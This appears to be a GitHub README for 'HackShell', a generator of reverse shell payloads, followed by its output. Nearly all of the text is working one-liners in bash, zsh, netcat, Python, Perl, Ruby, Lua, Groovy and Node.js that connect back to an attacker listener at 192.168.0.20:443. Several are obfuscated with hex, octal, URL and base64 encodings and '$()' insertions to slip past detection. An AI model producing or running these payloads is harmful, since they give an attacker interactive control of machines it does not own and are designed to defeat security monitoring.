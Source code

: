 # HackShell - Generator of some different reverse shells:
```
usage: python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type hex

.------..------..------..------..------..------..------..------..------.
|H.--. ||A.--. ||C.--. ||K.--. ||S.--. ||H.--. ||E.--. ||L.--. ||L.--. |
| :/\: || (\/) || :/\: || :/\: || :/\: || :/\: || (\/) || :/\: || :/\: |
| (__) || :\/: || :\/: || :\/: || :\/: || (__) || :\/: || (__) || (__) |
| '--'H|| '--'A|| '--'C|| '--'K|| '--'S|| '--'H|| '--'E|| '--'L|| '--'L|
`------'`------'`------'`------'`------'`------'`------'`------'`------'

optional arguments:
  -h, --help         show this help message and exit
  --payload PAYLOAD  bash,zsh,nc,php,python,perl,ruby,lua,groovy,nodejs,all
  --lhost LHOST      ip
  --lport LPORT      port
  --type TYPE        b64,urle,int,octa,hex,jlre,funf
```
#### e.g.
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.20",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type hex
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0xC0A80014",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type octa
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0300.0250.0000.0024",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type long
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3232235540",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type jlre
`
```
py%24%28%29thon%20%24%28%29c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.0.20%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type b64
`
```
cHkkKCl0aG9uIC0kKCljICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4wLjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw==
```
`
python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type jlre
`
```
bash -c {echo,YmEkKClzaCAtJCgpaSAnL2Rldi90Y3AvMTkyLjE2OC4wLjIwLzQ0MyAwPiYxJw==}|{base64,-d}|{bash,-i}
```

`
python hackshell.py --payload all --lhost 192.168.0.20 --lport 443
`
```
ba$()sh -$()i '/dev/tcp/192.168.0.20/443 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp192.168.0.20443&& zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|n$()c 192.168.0.20 443 >/tmp/f
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.20",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
pe$()rl -$()e 'use Socket;$i="192.168.0.20";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
ru$()by -rsocket -$()e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.0.20",443))'
lua -e "require('socket');require('os');t=socket.tcp();t:connect('"192.168.0.20"','443');os.execute('sh -i <&3 >&3 2>&3');"     
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.20/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
require('child_process').exec('nc -e sh 192.168.0.20 443')
```
